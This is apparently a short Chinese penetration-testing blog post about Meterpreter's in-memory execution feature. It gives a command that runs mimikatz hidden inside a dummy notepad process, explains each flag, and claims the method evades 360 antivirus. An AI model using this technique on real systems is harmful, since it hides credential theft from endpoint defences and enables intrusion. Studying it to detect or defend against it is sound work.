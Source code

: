 ```yaml
---
title: "Meterpreter 内存加载执行"
date: 2019-07-21T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['metasploit']
categories: ['内网渗透','bypass']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


具体原理和进程注入类似, 先创建一个正常的进程, 然后把这个进程里的内存空间覆盖成我们想要执行的程序.

Meterpreter 方式.

<!--more-->

```
execute -H -m -d notepad.exe -f mimikatz.exe -i
```

`-H` 隐藏窗口.

`-m` 在内存中执行.

`-d` 指定覆盖进程 (dummy).

`-f` 指定执行程序 (本地文件).

`-i` 与该程序交互 (可选).

`-a` 传递参数 (可选).

在实际测试中能够绕过 360 的检测, 当然前提是你反弹会话的 payload 是免杀的.